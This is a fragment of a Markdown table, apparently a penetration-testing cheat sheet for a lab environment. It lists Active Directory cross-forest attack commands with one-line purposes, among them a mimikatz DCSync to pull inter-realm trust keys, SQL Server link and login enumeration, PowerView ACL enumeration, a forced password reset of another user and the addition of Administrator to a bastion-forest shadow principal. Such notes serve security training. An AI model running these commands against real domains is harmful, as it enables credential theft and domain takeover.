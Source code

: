 | `.\mimikatz.exe "lsadump::dcsync /guid:{8d52f9da-361b-4dc3-8fa7-af5f282fa741}" "exit"` | Retrieve Inter-realm tickets.                   |
| `Get-SQLServerLink`                                          | Enumerate SQL Server links.                     |
| `Get-SQLQuery  -Query "EXEC sp_helplinkedsrvlogin"`          | Enumerate login rights for user.                |
| `mssqlclient.py jimmy@10.129.229.188 -windows-auth`          | Connect to SQL Server using Impacket tools.     |
| `Get-DomainObject -LDAPFilter '(objectclass=ForeignSecurityPrincipal)' -Domain logistics.ad` | Enumerate foreign security principals.          |
| `Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain logistics.ad  \| ? {$_.SecurityIdentifier -eq $sid}` | Enumerate foreign ACL principals.               |
| `Set-DomainUserPassword -identity jessica -AccountPassword $pass -domain logistics.ad -verbose` | Abuse foreign ACL principals.                   |
| `Set-ADObject -Identity "CN=Tom,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=controlcenter,DC=corp" -Add @{'member'="CN=Administrator,CN=Users,DC=controlcenter,DC=corp"} -Verbose` | Create shadow principal in bastion forest.      |
| `Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties *  \| select Name,member,msDS-ShadowPrincipalSid  \| fl` | Enumerate shadow principals.                    |